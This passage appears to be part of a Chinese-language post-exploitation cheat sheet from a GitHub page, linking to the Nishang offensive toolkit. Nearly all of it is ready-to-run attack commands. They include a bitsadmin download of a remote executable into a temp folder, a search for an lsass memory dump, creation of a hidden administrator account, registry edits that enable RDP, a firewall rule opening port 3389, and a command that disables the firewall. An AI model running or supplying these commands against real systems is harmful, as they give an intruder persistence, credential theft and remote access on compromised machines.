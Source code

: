 >   https://github.com/samratashok/nishang

### 其他常用命令

>   ping    icmp 连通性
>
>   nslookup www.baidu.com vps-ip dns 连通性
>
>   dig @vps-ip www.baidu.com
>
>   curl vps:8080  http 连通性
>
>   tracert
>
>   bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
>
>   fuser -nv tcp 80 查看端口 pid
>
>   rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
>
>   where file win 查找文件是否存在
>
>   找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
>
>   netstat -apn | grep 8888  kill -9 PID  查看端口并 kill

### 远程登录内网主机

判断是内网，还是外网，内网转发到 vps

>   netstat -ano  没有开启 3389 端口,复查下
>
>   tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.

### 在主机上添加账号

>   net user admin1 admin1 /add & net localgroup administrators admin1 /add

如不允许远程连接，修改注册表

>   REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
>
>   REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f

如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:

>   netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

关闭防火墙

>   netsh firewall set opmode mode=disable
